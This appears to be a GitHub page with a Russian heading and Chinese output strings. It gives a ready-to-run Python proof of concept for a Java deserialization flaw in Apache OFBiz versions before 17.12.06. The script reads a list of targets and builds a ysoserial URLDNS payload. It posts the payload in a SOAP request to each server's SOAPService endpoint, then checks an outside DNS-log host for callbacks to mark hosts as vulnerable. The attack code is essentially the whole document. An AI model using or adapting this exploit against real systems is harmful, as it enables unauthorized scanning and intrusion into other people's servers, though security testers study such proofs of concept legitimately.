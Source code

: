 <languages />

Воздействие уязвимости
----------------------

Apache OFBiz \< 17.12.06

POC
---

    #coding:utf-8
    import binascii
    import os
    import requests
    import urllib3
    import uuid
    urllib3.disable_warnings()
    def main():
        id = requests.get("https://dns.xn--9tr.com/new_gen").text.split(".")[0]
        if(not os.path.exists("target.txt")):
            exit("put url in target.txt! ")
        if(not os.path.exists("ysoserial.jar")):
            exit("where is ysoserial.jar?")
        with open("target.txt")as f:
            urls = f.readlines()
        for url in urls:
            url = url.strip()
            uid = uuid.uuid1().hex
            cmd = "java -jar .\ysoserial.jar URLDNS http://{0}.{1}.y.dns1.tk > tmp".format(uid,id)
            r = os.popen(cmd)
            r.close()
            with open("tmp",'rb') as f:
                payload = binascii.hexlify(f.read())
            data = '''
            <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
                <soapenv:Header/>
                <soapenv:Body>
                <ser>
            <map-HashMap>
                <map-Entry>
                    <map-Key>
                        <cus-obj>{0}</cus-obj>
                    </map-Key>
                    <map-Value>
                        <std-String value="http://baidu.com"/>
                    </map-Value>
                </map-Entry>
            </map-HashMap>
                </ser>
                </soapenv:Body>
                </soapenv:Envelope>
                '''.format(payload.decode())
            headers = {
                "user-agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36"
            }
            url = url+"/webtools/control/SOAPService"
            try:
                requests.post(url,data=data,verify=False,headers=headers,timeout=5)
                requests.post(url,data=data,verify=False,headers=headers,timeout=5)
                requests.post(url,data=data,verify=False,headers=headers,timeout=5)
            except:
                pass
            dnslogresurl = "https://dns.xn--9tr.com/"+id
            if(uid in requests.get(dnslogresurl).text):
                print("[+] {0} 漏洞存在".format(url))
            else:
                print("[-] {0} 漏洞不存在".format(url))
        print("[+] 请到 {0} 查看结果".format(dnslogresurl))

    if __name__ == "__main__":
        main()